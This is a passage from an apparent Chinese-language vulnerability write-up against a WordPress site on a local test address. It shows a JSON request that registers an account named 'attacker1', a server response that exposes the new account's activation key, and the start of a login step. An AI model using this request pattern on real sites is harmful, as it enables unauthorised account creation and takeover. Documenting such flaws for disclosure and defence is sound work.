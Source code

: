         User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0

        Accept: */*

        Accept-Encoding: gzip, deflate

        Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

        Content-Type: application/json; charset=UTF-8

        Content-Length: 112



        {"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
        ```
    - **得到回显:**
        ```
        HTTP/1.1 200 OK

        Date: Thu, 22 May 2025 03:49:29 GMT

        Server: Apache/2.4.18 (Ubuntu)

        X-Robots-Tag: noindex

        Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"

        X-Content-Type-Options: nosniff

        Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link

        Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type

        Content-Length: 280

        Content-Type: application/json; charset=UTF-8



        [{"id":3,"user_login":"attcker1","registered":"2025-05-22T03:48:36","user_name":"attacker1","activation_key":"aoM0svmO72kVVPbNxYadAKifjIUuYqj8","user_email":"attacker1@163.com","date_sent":"2025-05-22T03:48:36","count_sent":1,"meta":{"field_1":"attacker1","profile_field_ids":1}}]
        ```

4. **登录验证**
   - 使用注册的账号 `attacker1` 和密码 `attacker1` 登录。